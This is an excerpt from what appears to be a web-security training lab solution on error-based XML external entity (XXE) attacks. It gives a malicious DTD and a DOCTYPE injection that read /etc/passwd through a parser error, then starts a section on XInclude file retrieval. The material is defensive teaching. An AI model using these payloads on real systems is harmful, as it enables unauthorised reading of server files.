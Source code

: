 <div class="component-solution is-expandable expanded">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
                <ol>
                    <li>
                        <p>
                           Click "Go to exploit server" and save the following malicious DTD file on your server:
                        </p>
                        <code class="code-scrollable">&lt;!ENTITY % file SYSTEM "file:///etc/passwd"&gt;
&lt;!ENTITY % eval "&lt;!ENTITY &amp;#x25; exfil SYSTEM 'file:///invalid/%file;'&gt;"&gt;
%eval;
%exfil;</code>
                        <p>
                            When imported, this page will read the contents of <code>/etc/passwd</code> into the <code>file</code> entity, and then try to use that entity in a file path.
                        </p>
                    </li>
                    <li>
                        Click "View exploit" and take a note of the URL for your malicious DTD.
                    </li>
                    <li>
                        You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
                    </li>
                    <li>
                        <p>
                            Insert the following external entity definition in between the XML declaration and the <code>stockCheck</code> element:
                        </p>
                        <code class="code-scrollable">&lt;!DOCTYPE foo [&lt;!ENTITY % xxe SYSTEM "YOUR-DTD-URL"&gt; %xxe;]&gt;</code>
                        <p>
                            You should see an error message containing the contents of the <code>/etc/passwd</code> file.
                        </p>
                    </li>
                </ol>
            </div>
        </div>




#### Exploiting XInclude to retrieve files

Some applications receive client-submitted data, embed it on the  server-side into an XML document, and then parse the document. An  example of this occurs when client-submitted data is placed into a  back-end SOAP request, which is then processed by the backend SOAP  service. `XInclude` is a part of the XML specification that allows an XML document to be built from sub-documents. You can place an `XInclude` attack within any data value in an XML document, so the attack can be  performed in situations where you only control a single item of data  that is placed into a server-side XML document.        
